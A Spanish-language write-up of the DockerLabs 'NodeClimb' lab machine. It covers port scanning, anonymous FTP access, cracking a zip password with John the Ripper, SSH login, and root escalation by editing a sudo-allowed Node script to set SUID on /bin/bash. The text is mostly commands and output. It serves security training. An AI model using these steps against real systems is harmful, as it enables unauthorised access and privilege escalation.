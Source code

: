 ```yaml
---
icon: flag
---
```


# NodeClimb DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip nodeclimb.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh nodeclimb.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:57 EST
Nmap scan report for insanity.dl (172.17.0.2)
Host is up (0.000053s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.71 second
```

Vemos que hay un `FTP` por lo que vamos a ver si podemos meternos de forma anonima.

## FTP

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estamos dentro, si listamos lo que contiene veremos lo siguiente:

```
229 Entering Extended Passive Mode (|||54817|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
226 Directory send OK.
```

Vemos que hay un archivo llamado `secretitopicaron.zip`, por lo que nos lodescargaremos de la siguiente forma:

```shell
get secretitopicaron.zip
```

Ahora nos saldremos del `FTP` y veremos si podemos descomprimir el archivo, pero si lo intentamos veremos que esta protegido con contraseña, por lo que la intentaremos `crackear` de la siguiente forma:

## John The Ripper

```shell
zip2john secretitopicaron.zip > hash
```

Ahora intentaremos `crackear` el `hash` que obtuvimos del `ZIP`:

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-01-25 10:26) 100.0g/s 1638Kp/s 1638Kc/s 1638KC/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la contraseña es `password1` por lo que haremos lo siguiente.

## Escalate user mario

```shell
unzip secretitopicaron.zip
```

Metemos como contraseña `password1` y veremos que se nos descomprimio de forma correcta y obtendremos un archivo llamado `password.txt` que si lo leemos veremos lo siguiente:

```shell
cat password.txt
```

Info:

```
mario:laKontraseñAmasmalotaHdelbarrioH
```

Ahora probaremos a conectarnos por `ssh`.

### SSH

```shell
ssh mario@<IP>
```

Metemos como contraseña `laKontraseñAmasmalotaHdelbarrioH` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mario on ce01e9447984:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on ce01e9447984:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Vemos que podemos ejecutar el binario `node` junto al `script.js` como el usuario `root`, por lo que haremos lo siguiente:

Si vemos los permisos que tiene el `script.js` veremos lo siguiente:

```shell
ls -la /home/mario/script.js
```

Info:

```
-rw-r--r-- 1 mario mario 0 Jul  5  2024 /home/mario/script.js
```

Vemos que tenemos permiso para poder editarlo o hacer lo que queramos, por lo que haremos lo siguiente.

> script.js

```js
const { exec } = require("child_process");

// Comando para habilitar el bit setuid en /bin/bash
const command = "chmod u+s /bin/bash";

exec(command, (error, stdout, stderr) => {
  if (error) {
    console.error(`Error ejecutando el comando: ${error.message}`);
    return;
  }
  if (stderr) {
    console.error(`Error de salida: ${stderr}`);
    return;
  }
  console.log(`Comando ejecutado exitosamente: ${stdout}`);
});
```

Por lo que ahora lo ejecutaremos de la siguiente forma:

```shell
sudo node /home/mario/script.js
```

Info:

```
Comando ejecutado exitosamente:
```

Ahora si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Vemos que ha funcionado perfectamente y ya tendremos la `bash` con permisos `SUID`, por lo que haremos lo siguiente:

```shell
bash -p
```

Con esto ya seremos `root` por lo que habremos terminado la maquina.
